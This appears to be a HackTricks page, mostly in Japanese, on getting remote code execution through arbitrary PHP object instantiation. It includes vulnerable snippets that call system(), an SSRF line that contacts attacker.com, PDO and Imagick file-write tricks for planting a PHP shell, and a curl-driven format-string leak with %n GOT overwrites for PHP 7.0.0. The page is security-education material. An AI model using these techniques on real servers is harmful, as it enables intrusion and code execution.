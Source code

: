 # PHP - RCE abusing object creation: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

これは基本的に [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) の要約です

## はじめに

`new $_GET["a"]($_GET["a"])` のような任意のオブジェクトの生成は Remote Code Execution (RCE) を引き起こす可能性があり、詳細は [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) に記載されています。 このドキュメントでは RCE を達成するためのさまざまな戦略を紹介します。

## RCE via Custom Classes or Autoloading

`new $a($b)` という構文はオブジェクトをインスタンス化するために使用され、**`$a`** はクラス名を、**`$b`** はコンストラクタに渡される最初の引数を表します。これらの変数は GET/POST のようなユーザー入力から取得され、文字列や配列である場合があり、JSON から来る場合は他の型として現れることがあります。

以下のコードスニペットを考えてください:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
この例では、`$a` を `App` または `App2` に、`$b` をシステムコマンド（例: `uname -a`）に設定すると、そのコマンドが実行されます。

**Autoloading functions** は、そのようなクラスに直接アクセスできない場合に悪用できます。これらの関数は必要に応じてファイルからクラスを自動的に読み込み、`spl_autoload_register` または `__autoload` を使って定義されます：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE via Built-In Classes

カスタムクラスやオートローダーがない場合、**built-in PHP classes** だけで RCE が可能な場合があります。これらのクラス数は PHP のバージョンや拡張により 100〜200 程度で変動します。`get_declared_classes()` で一覧化できます。

注目すべきコンストラクタは reflection API を使って特定できます。以下の例とリンク [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) を参照してください。

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

`SplFileObject` クラスはそのコンストラクタを介して SSRF を引き起こすことができ、任意の URL への接続を許可します：
```php
new SplFileObject('http://attacker.com/');
```
SSRFは、Pharプロトコルを使用してPHP 8.0未満のバージョンでdeserialization attacksを引き起こす可能性があります。

### **Exploiting PDOs**

PDOクラスのコンストラクタは、DSN文字列を介してデータベースへの接続を許可し、潜在的にファイル作成やその他の操作を可能にします:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP の 5.3.22 および 5.4.12 までのバージョンは、libxml2 のバージョンに依存して、`SoapClient` や `SimpleXMLElement` コンストラクタを通した XXE 攻撃の影響を受けやすい状態でした。

## RCE via Imagick Extension

プロジェクトの依存関係を解析したところ、**Imagick** が新しいオブジェクトのインスタンス化によって **command execution** に利用できることが判明しました。これは脆弱性を突く機会を提供します。

### VID parser

VID parser がファイルシステム上の任意のパスへ内容を書き込める機能を持つことが確認されました。これにより、web アクセス可能なディレクトリに PHP シェルを配置して Remote Code Execution (RCE) を達成することが可能になります。

#### VID Parser + File Upload

PHP はアップロードされたファイルを一時的に `/tmp/phpXXXXXX` に保存することに注意してください。Imagick の VID parser は **msl** プロトコルを使用し、ファイルパスのワイルドカードを扱えるため、一時ファイルを任意の場所へ移動させることができます。この手法はファイルシステム内での任意のファイル書き込みを達成するための別のアプローチを提供します。

### PHP Crash + Brute Force

[**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) に記載された手法では、削除前にサーバをクラッシュさせるファイルをアップロードすることが説明されています。テンポラリファイル名をブルートフォースすることで、Imagick が任意の PHP コードを実行できるようになる可能性があります。ただし、この手法は古いバージョンの ImageMagick でのみ有効であることが判明しました。

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

ユーザ入力がクラス名を制御する場合（例: `new $_GET['model']()`）、PHP 7.0.0 の `Throwable` リファクタ中に一時的なバグが導入され、エンジンがクラス名を解決する際に誤って printf のフォーマット文字列として扱ってしまうことがありました。これにより、PHP 内で古典的な printf スタイルのプリミティブが利用可能になります：leaks with `%p`、幅指定子による書込カウント制御、そして in-process ポインタ（例えば ELF ビルドの GOT エントリ）に対する `%n` を使った arbitrary writes が可能になります。

最小再現の脆弱なパターン:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
エクスプロイトの概要（参照より）:
- クラス名に `%p` を含めてアドレスを leak し、書き込み可能なターゲットを見つける:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- 位置指定パラメータと幅指定子を使って正確なバイト数を設定し、`%n` でその値を書き込み、スタック上の到達可能なアドレスに書き込む。GOT スロット（例: `free`）を狙い、一部上書きして `system` にする。
- シェルのパイプを含むクラス名を渡してハイジャックした関数をトリガーし、`system("id")` を呼び出す。

注意:
- PHP 7.0.0 のみで動作（バグ [#71105](https://bugs.php.net/bug.php?id=71105)）；後続のリリースで修正済み。重大度: critical（任意のクラスインスタンス化が存在する場合）。
- 典型的なペイロードはスタックをトレースするために多数の `%p` を連結し、その後 `%.<width>d%<pos>$n` を使って部分上書きを行う。

## 参考

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
